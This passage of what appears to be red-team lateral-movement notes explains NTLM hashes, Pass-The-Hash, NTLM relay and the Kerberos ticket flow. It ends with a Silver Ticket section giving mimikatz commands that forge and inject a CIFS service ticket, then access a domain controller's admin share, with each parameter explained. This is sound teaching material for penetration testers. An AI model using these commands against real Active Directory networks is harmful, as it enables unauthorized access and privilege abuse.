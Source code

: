 LM / NTLM Hashes are used for Pass-The-Hash attacks, while Net-NTLMv1 / Net-NTLMv2 Hashes are used for NTLM Relay attacks.

Pass-The-Hash will do all the same previous authentication process because of all this process based on the user's hash, not the user's password.

NTLM Relay attack takes place at the Session Setup Request Authentication step.

## Kerberos Authentication

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen5.png?raw=true)

- The client hashes the user’s password, uses that hash to encrypt the current timestamp, and sends the encrypted timestamp to the KDC. The KDC already has a copy of the user’s hash so it uses the hash and tries to decrypt that message to retrieve the timestamp. If the decryption is successful, then the KDC knows that the client used the correct hash and hence proved his identity to that KDC.
- The Authentication service (AS) replies with two messages:
	- A session key encrypted using the user’s hash, that key will be used for future messages.
	- TGT (ticket-granting ticket), That TGT contains information regarding the user and his privileges on the domain, This message is encrypted using the hash of the KRBTGT account’s password. That hash is known only to the KDC, so only the KDC can decrypt the TGT.
- The client now has the TGT, he then requests a ticket to access the service he wants, so the client encrypts that request using the session key and sends it to the KDC which will decrypt and validate it. The TGT is also sent in that request.
- After validating the TGT the KDC responds with two messages:
	- A message specialized for the targeted service, encrypted with the service’s hash which is stored at the KDC, this includes the information in the TGT as well as a session key.
	- A message for the client containing a session key for further requests between the client and the service he asked to access, which is encrypted using the key retrieved from the AS-REP step.
- The client presents the message (TGS) from the TGS-REP step while connecting to the service along with an encrypted part, called authenticator message, this part includes the user’s name and timestamp which was encrypted and will be decrypted using the service session key. Then compare the username and timestamp from the TGS with the username and timestamp from the authenticator message.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen6.png?raw=true)

### Silver Ticket (Forged TGS)
```
# Silver Ticket
mimikatz # kerberos::golden /user:administrator /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /target:hydra-dc /service:cifs /rc4:86bafceb975cb8237cf2d390faa04074 
mimikatz # kerberos::ptt ticket.kirbi

# CMD
klist
dir \\hydra-dc\c$
```

- user: Username, this can be any user, even an invalid one will work.
- domain: The domain name.
- sid: Domain sid, can be obtained via many methods, whoami /user is one.
- target: Target machine.
- service: The service name, CIFS as am accessing filesharing service.
- rc4: NTLM hash of the target service.
